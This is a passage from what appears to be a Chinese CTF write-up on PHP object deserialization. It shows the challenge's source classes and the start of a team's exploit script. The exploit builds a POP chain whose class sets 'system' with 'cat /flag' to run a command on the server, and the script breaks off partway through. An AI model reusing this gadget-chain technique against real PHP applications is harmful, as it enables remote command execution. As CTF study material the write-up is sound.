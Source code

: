 ```php

class s0rry
{
    private $name;
    private $password;
    public $hint = "hint is depend on you";
    public $key;

    public function __construct($name, $password)
    {
        $this->name = $name;
        $this->password = $password;
    }


    public function __destruct()
    {
        echo $this->hint;
    }


}

class jiangnaij
{
    protected $code;


    public function __call($name, $arguments)
    {
        ($this->code)();
    }
}
```

ACT Team 的 exp 如下：

```php
<?php

class dstbp
{
    private $cmd;
    private $content;

    public function __construct()
    {
        $this->cmd = 'system';
        $this->content = 'cat /flag';
    }
}

class m1sery
{
    public $ctf;
    public $time;
}

class s0rry
{
    private $name;
    private $password;
    public $hint;
    public $key;
```